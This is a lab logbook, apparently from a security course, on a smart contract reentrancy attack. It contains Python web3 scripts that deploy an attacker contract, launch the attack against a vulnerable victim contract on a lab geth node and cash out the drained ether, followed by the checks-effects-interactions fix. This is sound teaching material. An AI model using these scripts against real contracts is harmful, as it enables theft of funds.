


# Logbook for Lab 06

## Purpose

The purpose of this logbook is to provide hands-on experience with one of the most significant security vulnerabilities in smart contracts: the reentrancy attack. We will examine how reentrancy attacks can compromise the integrity and safety of Ethereum-based smart contracts. The lab involves two key smart contracts, a vulnerable "victim" contract, and an "attacker" contract, which will be deployed, interacted with, and exploited to demonstrate how an attacker can drain funds through recursive calls. Beyond the attack itself, the logbook also covers how such vulnerabilities can be prevented, specifically through secure coding practices such as the checks-effects-interactions pattern. This exercise aims to deepen the understanding of blockchain technology, smart contract development, security best practices, and the consequences of poor contract design, using real-world inspired examples from major events like the DAO hack.

## Task 1 – Deploying and Interacting with the Victim Smart Contract

### Step 1.1 – Compile the Victim Contract

We started by compiling the vulnerable smart contract. Inside the `Labsetup/contract/` directory, we ran:

```bash
cd Labsetup/contract/
solc-0.6.8 --overwrite --abi --bin -o . ReentrancyVictim.sol
```

This generated the files `ReentrancyVictim.abi` and `ReentrancyVictim.bin`.


---

### Step 1.2 – Deploy the Victim Contract

Next, we deployed the contract using the provided Python script:

```bash
cd Labsetup/victim/
python3 deploy_victim_contract.py
```

The script printed the address of the newly deployed contract, which we copied for use in later steps.

```
Victim contract: 0xaf98236bcb084ADc949f43d647eb4045260b31F3
```


---

### Step 1.3 – Funding the Victim Contract

To simulate funds at risk, we edited `Labsetup/victim/fund_victim_contract.py` to set the correct contract address and an amount of 30 ether.

```python
victim_addr = '0xaf98236bcb084ADc949f43d647eb4045260b31F3'
...
amount = 30
```

We then ran:

```bash
python3 fund_victim_contract.py
```

This deposited 30 ether into the victim contract.


---

### Step 1.4 – Withdraw from the Victim Contract

To verify basic contract functionality, we edited `Labsetup/victim/withdraw_from_victim_contract.py` with the same contract address and set the amount to 5.

```python
victim_addr = '0xaf98236bcb084ADc949f43d647eb4045260b31F3'
...
amount = 5
```

Running:

```bash
python3 withdraw_from_victim_contract.py
```

We confirmed that 5 ether was withdrawn as expected.


---

### Step 1.5 – Check the Contract Balance

At each stage, we used `get_balance.py` (updated to our contract address) to confirm balances.

```bash
python3 get_balance.py
```



---

## Task 2 – Deploying the Attacker Contract

### Step 2.1 – Compile the Attacker Contract

We compiled the attacker contract using:

```bash
cd Labsetup/contract/
solc-0.6.8 --overwrite --abi --bin -o . ReentrancyAttacker.sol
```

This produced `ReentrancyAttacker.abi` and `ReentrancyAttacker.bin`.

---

### Step 2.2 – Edit and Deploy the Attacker Contract

We edited `Labsetup/attacker/deploy_attack_contract.py` to include the victim contract’s address:

```python
#!/bin/env python3

from web3 import Web3
import SEEDWeb3
import os

abi_file        = "../contract/ReentrancyAttacker.abi"
bin_file        = "../contract/ReentrancyAttacker.bin"
victim_contract = '0xaf98236bcb084ADc949f43d647eb4045260b31F3'

# Connect to our geth node
web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

# We use web3.eth.accounts[1] as the sender because it has more Ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")
addr = SEEDWeb3.deploy_contract(web3, sender_account,
                        abi_file, bin_file, victim_contract)
print("Attack contract: {}".format(addr))
with open("contract_address_attacker.txt", "w") as fd:
    fd.write(addr)
```

And ran:

```bash
cd Labsetup/attacker/
python3 deploy_attack_contract.py
```

The address of the deployed attacker contract was noted for the next steps.

```
Attack contract: 0xE4f431062358923783bc63Ba7bC0BF232AFd9f99
```


---

## Task 3 – Launching the Reentrancy Attack

### Step 3.1 – Check Initial Balances

We used the balance script to verify the victim contract’s balance before attacking:

```bash
python3 get_balance.py
```



---

### Step 3.2 – Configure and Launch the Attack

We edited `Labsetup/attack/launch_attack.py` with the attacker contract’s address:

```python
#!/bin/env python3

from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xE4f431062358923783bc63Ba7bC0BF232AFd9f99'

# Launch the attack
contract_abi  = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.attack().transact({ 
                    'from':  sender_account,
                    'value': Web3.toWei('1', 'ether')
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

```bash
python3 launch_attack.py
```

The output confirmed that the transaction was sent and mined.


---

### Step 3.3 – Check Contract Balance After Attack

Checking balances after the attack showed that the victim contract was drained as expected:

```bash
python3 get_balance.py
```


---

### Step 3.4 – Cash Out the Stolen Ether

Finally, we ran the cash out script to transfer the stolen ether from the attacker contract to our own account.

```python
#!/bin/env python3
  
from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xE4f431062358923783bc63Ba7bC0BF232AFd9f99'

# Cash out the money from the attacker contract
contract_abi   = SEEDWeb3.getFileContent(abi_file)
recipient_acct = Web3.toChecksumAddress(web3.eth.accounts[2])
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.cashOut(recipient_acct).transact({ 
                    'from':  sender_account
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

```bash
python3 cashout.py
```

---

## Task 4 – Applying the Countermeasure

### Step 4.1 – Fix the Vulnerability

To prevent reentrancy, we updated the `withdraw` function in `Labsetup/contract/ReentrancyVictim.sol` to first update balances before making any external calls. The modified function:

```solidity
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] -= _amount;
    total_amount -= _amount;
    (bool sent, ) = msg.sender.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

The full contract code was updated accordingly:

```solidity
//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.8;

contract ReentrancyVictim {
    mapping (address => uint) public balances;
    uint256 total_amount;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
        total_amount += msg.value;
    }

    receive() external payable {
        total_amount += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        total_amount -= _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }

    function getBalance(address _addr) public view returns (uint) {
        return balances[_addr];
    }
    
    function getContractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

---

### Step 4.2 – Recompile and Redeploy the Victim Contract

We recompiled and redeployed the fixed contract, repeating the deployment and funding steps. Balances were checked to confirm that funds were present.

Recompiling the fixed contract:

```bash
solc-0.6.8 --overwrite --abi --bin -o . ReentrancyVictim.sol
```


Deploying the victim contract:

```bash
python3 deploy_victim_contract.py
```


Funding the contract:

```bash
python3 fund_victim_contract.py
```


Checking the balance:

```bash
python3 get_balance.py
```


---

### Step 4.3 – Attempt the Attack

We attempted the reentrancy attack again using the same attack scripts. This time, the contract balance remained unchanged, confirming that the vulnerability had been mitigated.

```bash
python3 launch_attack.py
python3 get_balance.py
```


---

## Conclusion

Throughout this lab, we explored the concept and execution of the reentrancy attack, a critical vulnerability in Ethereum smart contracts that has historically led to major financial losses. By working step-by-step through the compilation, deployment, funding, and exploitation of a vulnerable smart contract, we observed first-hand how a malicious actor can repeatedly withdraw funds, draining the contract due to improper update of internal state before making external calls.

We then implemented and tested an effective countermeasure by restructuring the smart contract to update internal balances before transferring ether, adhering to the checks-effects-interactions pattern. This fix successfully prevented the reentrancy attack, as demonstrated in the final task, where the exploit no longer succeeded and the contract balance remained safe.

This lab underlined the importance of secure smart contract development practices and highlighted how a small coding oversight can lead to severe vulnerabilities. It also emphasized the critical need for careful smart contract engineering and rigorous security testing.
